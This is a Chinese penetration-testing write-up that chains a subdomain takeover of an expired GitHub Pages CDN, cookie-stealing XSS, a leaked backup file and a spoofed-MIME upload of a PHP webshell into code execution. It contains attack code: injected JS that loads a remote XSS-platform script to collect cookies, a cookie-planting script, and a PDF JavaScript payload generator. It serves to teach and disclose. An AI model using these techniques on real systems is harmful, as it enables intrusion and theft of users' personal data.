# 奇安信攻防社区-【Web实战】一次从子域名接管到RCE的渗透经历

### 【Web实战】一次从子域名接管到RCE的渗透经历

一次从子域名接管到RCE的渗透经历 前言 本文接触过作者的一次奇妙的实战经历，从子域名接管到上传Shell提权，将信息泄露漏洞和xss漏洞最终发展成rce。本文由当时存在语雀中的零散的渗透记录整理...

# 一次从子域名接管到RCE的渗透经历

## 前言

本文接触过作者的一次奇妙的实战经历，从子域名接管到上传Shell提权，将信息泄露漏洞和xss漏洞最终发展成rce。本文由当时存在语雀中的零散的渗透记录整理，由于该次渗透距今已经有一段时间，而且厂商要求保密，所以本文属于思路复现。下文中的域名、DNS解析记录、IP等信息均为作者自行注册或手动搭建的环境，努力做到还原当时的渗透场景。

## 0x01 数据泄露：从JS文件审计开始

授权拿到站以后，先是扫描一波，发现一个oa登录页面[https://oa.website.com:9002](https://oa.website.com:9002/)  
  
登录不需要验证，直接抓包尝试爆破，但是弱口令爆破了没出结果。于是打开F12准备审计JavaScript，但是edge的开发者工具不太好用，于是我自己写了一个python脚本把页面里的JavaScript文件爬取到本地指定目录中，在本地审计。

```python
# ©2023 衡水中学数据安全社团 
# JS下载工具 V1.0

import os
import requests
from bs4 import BeautifulSoup
from urllib.parse import urlparse, urljoin

# 定义目标URL和保存JavaScript链接的文件名
target_url = "https://example.com"  # 将此替换为你要爬取的页面URL
output_file = "js_links.txt"  # 保存JavaScript链接的文件名
output_directory = "js_files"  # 保存JavaScript文件的目录

# 创建保存JavaScript文件的目录
os.makedirs(output_directory, exist_ok=True)

# 发送HTTP请求获取页面内容
response = requests.get(target_url)

# 检查响应状态码
if response.status_code == 200:
    # 解析页面内容
    soup = BeautifulSoup(response.text, 'html.parser')

    # 查找页面中的所有<script>标签
    script_tags = soup.find_all('script')

    # 提取JavaScript文件链接
    js_links = []
    for script in script_tags:
        src = script.get('src')
        if src and src.endswith('.js'):
            js_links.append(urljoin(target_url, src))

    # 将JavaScript链接保存到文件中
    with open(output_file, 'w') as f:
        for link in js_links:
            f.write(link + '\n')

    # 下载JavaScript文件
    for link in js_links:
        filename = os.path.join(output_directory, os.path.basename(urlparse(link).path))
        response = requests.get(link)
        if response.status_code == 200:
            with open(filename, 'wb') as f:
                f.write(response.content)
        else:
            print(f"Failed to download {link}")

    print(f"JavaScript文件链接已保存到{output_file}，JavaScript文件已保存到{output_directory}")
else:
    print(f"Failed to retrieve the webpage. Status code: {response.status_code}")
```

当我们把所有引用的JavaScript代码都保存到本地以后就可以愉快开始审计代码了，很快，我就发现一个API接口返回了敏感信息，就是下面的代码部分。  


```js
const userInfoXhr = new XMLHttpRequest();
userInfoXhr.open("GET", "https://api-url.com/userinfo?m=get&username=" + response.username, true);
```

在这两行代码中，通过调用`/userinfo?m=get&username=<YourName>`这个接口，我们发现可以只需要提供用户名就可以执行下面的操作不需要提供其他验证。我们可以发现，通过用户名我可以获取家庭住址、电话号码、身份证号码和工作单位这些敏感信息。  
  
如果username存在，就会返回code200的json  
  
如果username错误，就会返回code502的json

```json
{
    "error": "Username not found"
}
```

那我们就可以通过枚举用户名，来获取大量用户敏感信息。我们已经拿到了一血，中危信息泄露。

## 0x02 接管域名：一个过期的cdn链接

接下来依旧进行代码审计，没有什么收获，然后重新检查了一遍index.html的内容，发现有两部分JavaScript代码重复了。先是通过cdn引用了jQuery，又重复引用了本地的jQuery。

```html
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <meta name="Keywords" content="" />
    <meta name="description" content="" />
    <meta http-equiv="Expires" content="0">
    <meta http-equiv="Cache-Control" content="no-cache">
    <meta http-equiv="Pragma" content="no-cache">
    <script src="https://cdn1.site.com/js/jquery-2.2.4.min.js"></script>
    <script src="https://cdn1.site.com/js/index.js"></script>
    <link href="https://cdn1.site.com/css/style.css" rel="stylesheet" />
    <!--Github CDN XXX.github.io-->

    <link href="/admincss/common.css" rel="stylesheet" />
    <link href="/admincss/adStyle.css" rel="stylesheet" />
    <title>用户登录</title>
    <link href="/adminimage/icon.png" rel="shortcut icon" />
    <script src="/js/jquery-2.2.4.min.js"></script>
</head>
```

在cdn1.site.com这个域名下面引用了外部js和css文件，加载到页面当中，但是通过开发者工具捕获的网络流量可知，这两个文件都是红的没有成功加载。我看到注释里面的“Github CDN XXX.github.io”，我以为是GitHub网速的原因或者我DNS被污染了导致链接不到GitHub Pages服务器。

于是，我开了美国节点的代理，打算访问一下[https://cdn1.site.com/js/index.js](https://cdn1.site.com/js/index.js) 再去审计信息泄露，结果发现无法连接到网站。

  
于是我查询了cdn1.site.com的解析记录，发现指向了XXX.github.io。我去搜索这个“XXX”这个用户名，但是在GitHub上搜不到，直接访问XXX.github.io也不行，我推测可能是这个账号已经注销掉了。

  
前往GitHub注册页面，输入“XXX”,发现用户名可用，完成注册操作，新建一个js仓库

  
然后打开GitHub Pages服务，将仓库部署到服务器上，显示“Your site is live at \[[https://XXX.github.io/js/](https://xxx.github.io/js/)\]() ” ，在下面添加cdn1.site.com。  
  
我们新建一个名为jquery-2.2.4.min.js的文件，并且写入payload

  
通过cdn1.site.com访问这个js文件，发现正常显示  
  
访问OA登陆系统首页，成功写入XSS payload，域名接管成功  


分析：域名cdn1.site.com一开始指向了XXX.github.io，GitHub pages作为cdn服务器存放资源文件使用。后来GitHub注销，仓库被删除，用户名被释放，但是没有删除DNS解析记录，域名cdn1.site.com依旧指向了XXX.github.io，这个时候通过注册用户名XXX，重新使用XXX.github.io，并在仓库中写入恶意代码，cdn成功将代码写入页面，触发了xss payload。这个时候cdn1.site.com也被我们接管了。

## 0x03 绕过验证：XSS漏洞获取Cookie

原来那个OA后来根据泄露的用户信息生成字典爆破弱口令，成功登入了后台，拿到了管理员权限，这里不细说。下面介绍另外一个同样引用了cdn文件的业务系统，通过XSS漏洞拿Cookie。这个人事管理系统在三级域名下面，是一个功能比较简单的系统，正因为功能简单防守也最薄弱，所以选择它作为突破口。

  
我把登录页面简化了一下，只留出了关键代码和注释来理解这个系统的Cookie是怎么个流程

```html

<html>
<head>
    <title>Login Page</title>
    <!-- CDN 部分-->
    <script src="https://cdn1.site.com/js/index.js"></script>
    <!-- CDN 部分-->

    <!-- 引入CryptoJS库 -->
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/crypto-js.js"></script>
</head>
<body>
    <form id="loginForm">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br><br>
        <input type="submit" value="Login">
    </form>

    <script>
        // 处理登录表单提交事件
        document.getElementById("loginForm").addEventListener("submit", function (event) {
            event.preventDefault(); // 阻止表单提交

            // 获取用户名和密码
            const username = document.getElementById("username").value;
            const password = document.getElementById("password").value;

            // 加密用户名和密码（使用CryptoJS的AES加密示例）
            const encryptionKey = "yourEncryptionKey"; // 替换为您的加密密钥
            const encryptedUsername = CryptoJS.AES.encrypt(username, encryptionKey).toString();
            const encryptedPassword = CryptoJS.AES.encrypt(password, encryptionKey).toString();

            // 设置Cookie的过期时间（7天）
            const expirationDate = new Date();
            expirationDate.setDate(expirationDate.getDate() + 7);

            // 创建Cookie字符串
            const cookieString = `username=${encodeURIComponent(encryptedUsername)}; password=${encodeURIComponent(encryptedPassword)}; expires=${expirationDate.toUTCString()}; path=/`;

            // 将Cookie写入浏览器
            document.cookie = cookieString;

            // 重定向到其他页面（此处示例为成功登录后的页面）
            window.location.href = "dashboard.html"; // 替换为实际的目标页面
        });
        /*省略其他代码，包括Cookie校验*/
    </script>
</body>
</html>
```

代码解释：

-   代码包括一个基本的HTML表单，用于输入用户名和密码。
-   在表单提交时，通过CryptoJS库对用户名和密码进行了加密。
-   Cookie的过期时间设置为7天，一周之后Cookie删除。
-   最后，代码将用户重定向到登录成功后的管理页面（`dashboard.html`），

注意的是，这个页面Cookie检验很简单，就是将Cookie发送到服务器检查Cookie是否在有限期内或Cookie是否正确。现在我们没有账号密码，就只能通过cdn插入XSS脚本获取Cookie和其他敏感信息。

我们需要的Cookie形式：

`username=U2FsdGVkX19JWzJVQUFtYnNiRGVzdGluYXRpb25VbmlxdWUwOjBGRjVDMDcyMkIxNTQ1NTM4NzJBRkExRkE0MjM5MkZEOUE5N0I1OEMwNzUyNzY5Qzg2RDY2Njk0; password=U2FsdGVkX1+VQjUxVmlzaW9uMzIxYVd5eVpXMHpOVDAvR1lUcm9pMzdRVGhhSjZhR3owYUVCSmRURzZNdTFmU0NjMkFzUjNrWHFMRUV5d2I=; expires=Sat, 26 Nov 2023 00:00:00 GMT; path=/`  
登录XSS平台，创建XSS项目，设置基本参数，选择email提醒和微信提醒



  
然后我们将利用脚本写入github仓库里的index.js文件中，把脚本加载到页面

```js
// 创建一个新的script元素
var scriptElement = document.createElement('script');

// 设置script元素的src属性
scriptElement.src = "//xms.la/U5";

// 将script元素添加到页面的头部或其他需要的位置
document.head.appendChild(scriptElement);
```

  
成功有鱼上钩，我们拿Cookie试一下  
这个时候我别忘了还有一个index.js也是在cdn1的子域下面，所以我们再新建一个index.js执行Cookie写入操作，为了避免影响其他用户，我们特地通过一个url参数来控制执行

```js
// 获取当前页面的 URL
var currentUrl = window.location.href;

// 解析 URL 查询字符串中的参数
var urlParams = new URLSearchParams(currentUrl.split('?')[1]);

// 检查是否存在名为 "us" 的参数，并且它的值是否为 "1"
if (urlParams.has('us') && urlParams.get('us') === '1') {
  // 设置名为 "usCookie" 的 Cookie，值为 "1"
  document.cookie = "这里是我们获取到的Cookie";
}
```

  
我们刷新页面，发现自动重定向到后台了，里面有很多会员的身份信息，均为敏感信息。我们做到这里不得不吐槽一句这个单位的数据安全防护太不尽人意了，先后两个系统数据都被泄露。  
  
这个系统没有文件上传操作功能，但是我通过XSS实现了RCE，如何做的？接下来你就知道了，

## 0x04 生成控件：修改页面实现RCE

首先，我们例行再次进行扫描。有些目录在非登录状态下是不可见的，会被重定向，现在我们已经登录了，就可以带着Cookie去扫，看看有没有目录遍历或者备份文件下载。

在网站的Back目录中，我们发现/Back/back2022.zip是可以下载的，应该是网站备份文件，所以下载下来进行代码审计

  
我们把文件解压后，发现真的是一个很简单的数据管理系统，可以说是裸奔在互联网了。我们直接来到untils目录下面，这个目录一般就是放一些配置文件之类的  
  
先打开connect\_db.php

  
简单、直接、明了地告诉了我们数据库密码，够爽快！但是数据库只允许127.0.0.1本地连接，我试了发现无法直接连接数据库，放弃sql提权的思路，看看有没有其他更简单的方式

  
在admin目录下有个文件上传功能，是用来上传用户头像，但是好像这个功能没有继续开发导致荒废，不过代码没有删除（或者这个功能正在开发中，只开发到了一半，没有写前端）

  
文件类型检查是基于`$_FILES['pic']['type']`字段进行的，该字段由执行文件上传的浏览器确定。这就意味着，我们可以篡改或欺骗`$_FILES['pic']['type']`的值，来实现shell文件上传，那让我们来补全这个功能的前端操作页面,类似下面这样：

```html

<html>
<head>
    <meta charset="UTF-8">
    <title>文件上传</title>
    <!-- 引入/js目录下的全部文件-->
</head>
<body>
    <h1>文件上传</h1>
    <form action="upload.php" method="post" enctype="multipart/form-data">
        <label for="pic">选择要上传的图像：</label>
        <input type="file" name="pic" id="pic" accept="image/jpeg, image/png, image/gif" required>
        <br><br>
        <input type="submit" value="上传图像">
    </form>
</body>
</html>
```

这里选择通过前端页面提交文件时，而不是直接通过发送POST请求包的方式，是因为目标系统实施了一种安全措施，即在后端对请求进行了key校验。这个key校验是基于用户的Cookie完成的。

通过构造一个前端页面，然后发送请求包的方式，可以直接在请求包中记录下与该Cookie相关的key信息。这样，渗透者可以伪装成一个合法的前端用户，绕过了后端的key校验机制。

相比之下，如果直接尝试访问后端接口，我们需要自己构造一个有效的key，这比较困难（需要理解/js文件夹下的代码中的key生成与校验算法，需要比较高的时间成本），因为key的生成涉及到一些复杂的算法。所以，通过前端页面提交文件的方式更为便捷，因为它能够直接利用已有的Cookie中的key信息，绕过了这个关键的校验步骤。这就是为什么选择这种方式而不是直接发送POST请求包的原因。

我们通过github仓库里的index.js将上述页面加载到网站页面中

  
我们访问含有index.js的页面并且带上`?us=2`，就可以生成以下页面  
  
我们上传一个图片先抓包  
  
右键->复制为powershell

  
这个PowerShell脚本用于向特定的URL（`http://rs.eist.site.com/admin/upload.php`）发送HTTP POST请求，并包含各种HTTP头信息，包括用户代理和Cookie等。下面我逐步解释这个脚本：

1.  `$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession`：这一行创建了一个新的`WebRequestSession`对象。这个会话对象可用于存储与会话相关的信息，如头信息，用于HTTP请求。
    
2.  `$session.UserAgent = "Mozilla/5.0 ... Edg/113.0.1774.57"`：它设置了会话对象的`UserAgent`属性。`UserAgent`头标识了发出请求的客户端，并提供有关所使用的浏览器或客户端应用程序的信息。
    
3.  `$session.Cookies.Add(...)`：这一行将一个`PHPSESSID` Cookie添加到会话中。它指定了Cookie的名称、值、路径和域。这通常用于在服务器上维护会话状态。我们不用添加我们之前获取到的Cookie，因为这个上传页面是自己构建的不用做Cookie校验
    
4.  `Invoke-WebRequest -UseBasicParsing -Uri ...`：这是脚本的主要部分，执行HTTP POST请求。以下是它的具体操作：
    
    -   `-UseBasicParsing`：此标志告诉PowerShell使用简化的解析模式来处理响应内容。
    -   `-Uri "http://rs.eist.site.com/admin/upload.php"`：它指定了HTTP POST请求的目标URL。
    -   `-Method "POST"`：它将HTTP方法设置为POST。
    -   `-WebSession $session`：它将之前创建的会话对象与此请求相关联。
    -   `-Headers {...}`：它设置了请求的各种HTTP头，包括`Accept`、`Accept-Encoding`、`Accept-Language`、`Cache-Control`、`Origin`、`Referer`和`Upgrade-Insecure-Requests`等。
    -   `-ContentType "multipart/form-data; boundary=..."`：它设置了请求的内容类型为多部分表单数据（multipart form data），并指定了用于分隔表单数据不同部分的边界。
    -   `-Body ...`：它定义了POST请求的主体内容，是一个多部分表单数据的负载。负载包括文件数据和其他内容。

这个powershell脚本向upload.php发送POST请求，实现客户端与Web服务器的交互。它将多部分表单数据负载作为请求主体发送，包含文件上传数据，我们可以通过修改。

  
只要这里是图片格式就行，我们可以把文件名修改1.php，写入一句话木马，完成上传



  
这样我们就可以完成上传，找到文件储存的地址admin/touxiang/1.php



  
也是成功写入一句话木马

  
成功连接上sql数据库

写到这里，我们回头看一下渗透过程，其实都是很简单的渗透操作，但是细心一点一点挖掘就能不断打组合拳。上述流程可以整理如下：

1.  首先，渗透过程从发现无法访问cdn1子域开始，并且解析到了一个不存在的Github.io子域名。这是我发现的一个可能存在潜在漏洞的缺陷。
2.  我随后注册了一个GitHub账号，并申请了一个与cname解析的别名相同的XXX.github.io域名。这一步是为了伪装成合法的cdn服务，以便绕过一些安全措施。
3.  我在目标网站的页面中通过加载cdn文件的方式注入了一个xss payload。这个xss payload可以用于获取用户的Cookie信息，从而获取后台访问权限。
4.  成功获得了用户的Cookie，进而能够访问后台系统。
5.  继续在网站备份文件中进行审计，找到了一个文件上传接口。这个接口可能存在漏洞，可以被渗透者利用。
6.  渗透者利用文件上传接口的漏洞成功上传了恶意文件，最终拿下了shell，获得了对目标系统的控制权。
7.  而且这个子域名下的系统，虽然功能简单、防御不堪，但是和其他系统部署在同一台服务器上，拿下它等于其他系统不攻自破。

这个渗透过程确实是一系列简单的操作，但通过仔细挖掘和组合这些操作，我们成功地获取了对目标系统的访问权限和控制权。这个过程强调渗透者的耐心和技能，以及对目标系统的深入了解和审计能力。

## 0x05 有意思的PDF（非正文）

在渗透测试过程中，有一个接口可以上传PDF，我搜到了关于PDF XSS的资料，但是经过我的复现验证，发现只能进行弹窗不可以执行其他操作，危害有限。我也附上我当时自己写的PDF写入XSS payload的脚本，供各位师傅娱乐、探讨。



  
creater.py

```python
# ©2023 衡水中学数据安全社团 LiuTselin
import argparse
from pdfrw import PdfWriter
from pdfrw.objects import PdfDict, PdfArray, PdfName, PdfString
from PyPDF2 import PdfReader, PdfWriter as PyPdfWriter

# 全局常量
FONT_NAME = "Helvetica"
MEDIA_BOX = [0, 0, 612, 792]
FONT_SIZE = 24

def create_js_action(js_code):
    """创建JavaScript动作对象"""
    return PdfDict(S=PdfName.JavaScript, JS=js_code)

def create_form_field(name, x, y, width, height, r, g, b, value=""):
    """创建表单字段对象"""
    rect = PdfArray([x, y, x + width, y + height])
    ap_stream = f"{r} {g} {b} rg\n0.0 0.0 {width} {height} re f\n"

    annot = PdfDict(
        Type=PdfName.Annot,
        Subtype=PdfName.Widget,
        FT=PdfName.Tx,
        Ff=2,
        Rect=rect,
        MaxLen=160,
        T=PdfString.encode(name),
        V=PdfString.encode(value),
        AP=PdfDict(N=PdfDict(Type=PdfName.XObject, Subtype=PdfName.Form, FormType=1, BBox=rect, Matrix=[1.0, 0.0, 0.0, 1.0, 0.0, 0.0], stream=ap_stream)),
        MK=PdfDict(BG=PdfArray([r, g, b]))
    )

    return annot

def create_pdf_page(fields, script):
    """创建PDF页面对象"""
    resources = PdfDict(Font=PdfDict(F1=PdfDict(Type=PdfName.Font, Subtype=PdfName.Type1, BaseFont=PdfName(FONT_NAME))))
    content_stream = "BT\n/F1 {} Tf\nET\n".format(FONT_SIZE)

    page = PdfDict(
        Type=PdfName.Page,
        Resources=resources,
        MediaBox=MEDIA_BOX,
        Contents=PdfDict(stream=content_stream),
        AA=PdfDict(O=create_js_action(f"try {{\n{script}\n}} catch (e) {{\napp.alert(e.message);\n}}")),
        Annots=PdfArray(fields)
    )

    return page

def merge_pdfs(input_pdf1, input_pdf2, output_pdf):
    """合并两个 PDF 文件"""
    pdf_writer = PyPdfWriter()

    try:
        # 打开第一个输入 PDF 文件并将其页面复制到新文件
        pdf1 = PdfReader(input_pdf1)
        for page in pdf1.pages:
            pdf_writer.add_page(page)

        # 打开第二个输入 PDF 文件并将其页面复制到新文件
        pdf2 = PdfReader(input_pdf2)
        for page in pdf2.pages:
            pdf_writer.add_page(page)

        # 保存合并后的 PDF 文件
        with open(output_pdf, 'wb') as merged_file:
            pdf_writer.write(merged_file)
        print(f"PDF 合并完成，保存为 {output_pdf}")
    except Exception as e:
        print(f"发生异常: {e}")
        raise  # 抛出异常以便上层调用者处理

def main():
    parser = argparse.ArgumentParser(description="Create PDF with form fields and JavaScript")

    parser.add_argument("--js_file", type=str, help="Input JavaScript file containing form field definitions and script")
    parser.add_argument("--pdf1", type=str, help="First input PDF file")
    parser.add_argument("--pdf2", type=str, help="Second input PDF file")
    parser.add_argument("--output", type=str, help="Output merged PDF file")
    parser.add_argument("--merge", action="store_true", help="Perform PDF merge operation")

    args = parser.parse_args()

    if args.js_file:
        js_filename = args.js_file
        try:
            with open(js_filename, 'r', encoding='utf-8') as js_file:
                js_script = js_file.read()  # 读取文件内容到变量
                fields = []
                for line in js_script.splitlines():
                    if not line.startswith('/// '):
                        break
                    pieces = line.split()
                    params = [pieces[1]] + [float(token) for token in pieces[2:]]
                    fields.append(create_form_field(*params))
        except UnicodeDecodeError:
            print("无法解码文件。")
            # 进行适当的错误处理

        # 创建 PDF 页面
        page = create_pdf_page(fields, js_script)
        output_pdf = PdfWriter()
        output_pdf.addpage(page)
        output_pdf.write('result.pdf')
        print("生成的 PDF 文件已保存为 result.pdf")

    elif args.merge:
        if args.pdf1 and args.pdf2 and args.output:
            input_pdf1 = args.pdf1
            input_pdf2 = args.pdf2
            output_pdf = args.output

            # 合并 PDF 文件
            merge_pdfs(input_pdf1, input_pdf2, output_pdf)
        else:
            print("合并操作需要提供 --pdf1、--pdf2 和 --output 参数")

if __name__ == "__main__":
    main()
```

payload.js

```js
app.alert("Love Butian Forever❤")
```

本文就写到这里，从晚上11点一直整理到第二天下午2点10分，通宵肝的，感觉人马上就要飞升了~如果本文哪些思路叙述的不清楚或者提出异议，可以直接在下方评论区跟我讨论，我会一一回复的。祝各位师傅能够天天RCE！


